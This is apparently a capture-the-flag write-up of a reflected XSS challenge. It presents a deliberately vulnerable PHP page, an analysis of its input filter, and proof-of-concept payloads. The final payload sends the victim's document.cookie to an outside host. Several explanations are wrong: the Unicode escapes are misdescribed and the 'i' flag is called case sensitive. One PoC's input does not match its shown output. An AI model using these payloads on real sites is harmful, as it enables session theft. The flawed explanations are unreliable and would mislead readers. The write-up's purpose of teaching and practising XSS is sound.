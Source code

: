 #### 2.1. Reflected XSS - challenge

File: `/tmp/xss.php`
```php
$input = @$_GET["xss"];
$input = preg_replace("/[\r\n\x{2028}\x{2029}\x{005c};,()\[\]<]/usi", "", $input);
echo "<script>var email = '".$input."';</script>";
```

Quick access via PHP's web server:
```
$ cd /tmp/ && php -S 0.0.0.0:8081
$ http "localhost:8081/xss.php?xss=LUL" -b
<script>var email = 'LUL';</script>
```

Understand the regex payload (`/[\r\n\x{2028}\x{2029}\x{005c};,()\[\]<]/usi`):
```
\r       - return carriage
\n       - new line
; , () < - simple chars
\x{2028} - %20(
\x{2029} - %20)
\x{005c} - %00\
\[       - escaped [
\]       - escaped ]
u        - unicode
s        - dot matches newline
i        - case sensitive
```

In JS console:
```
> ''+1 == true  // empty string concatenated with integer
true
> a'+1 == true  // non-empty string concatenated with integer
false
> ''+1 ? true : false // if/else conditional in one line
true
```

Basic PoC:
```
$ x="'%2b1?document.location='http://google.com':0//"
$ http "localhost:8081/xss.php?xss=$x" -b
<script>var email = ''+1?document.location='http://icanhazip.com':0//';</script>
```

PoC payload w/ cookie exfil:
```
'%2b`${document.location='http://icanhazip.com/LOL?'%2bdocument.cookie}`//
```
